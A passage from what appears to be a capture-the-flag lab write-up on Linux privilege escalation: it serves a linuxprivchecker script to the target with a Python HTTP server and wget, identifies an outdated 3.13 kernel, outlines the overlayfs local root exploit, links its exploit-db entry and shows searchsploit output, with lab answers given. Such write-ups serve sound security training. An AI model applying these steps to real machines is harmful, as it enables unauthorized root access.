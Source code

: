 **To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:**

* **Download the linuxprivchecker file locally**
* **Navigate to the file on your file system**
* **Do: `python -m SimpleHTTPServer 1337` (leave this running)**
* **On the VM you can now do: `wget <your IP>/<file>.py`**

**OR**

**Enumerate the machine manually.**

## #4.2 - Whats the kernel version?

*Hint: `uname -a`*

The kernel is outdated:

~~~
$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

Answer: `3.13.0-32-generic`

## #4.3

**This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:**

* **Create new user and mount namespace using `clone` with `CLONE_NEWUSER|CLONE_NEWNS` flags.**
* **Mount an overlayfs using `/bin` as lower filesystem, some temporary directories as upper and work directory.**
* **Overlayfs mount would only be visible within user namespace, so let `namespace process change CWD` to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.**
* **Make `su` on overlayfs world writable without changing the owner**
* **Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the `SetgidDirectoryPrivilegeEscalation` exploit.**
* **Execute the modified su binary**

**You can download the exploit from here: https://www.exploit-db.com/exploits/37292**

Let's search for Overlayfs related exploits on kernel 3.13:

~~~
$ /data/src/exploitdb/searchsploit kernel 3.13 overlayfs
[i] Found (#1): /data/src/exploitdb/files_exploits.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#1): /data/src/exploitdb/files_shellcodes.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37293.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~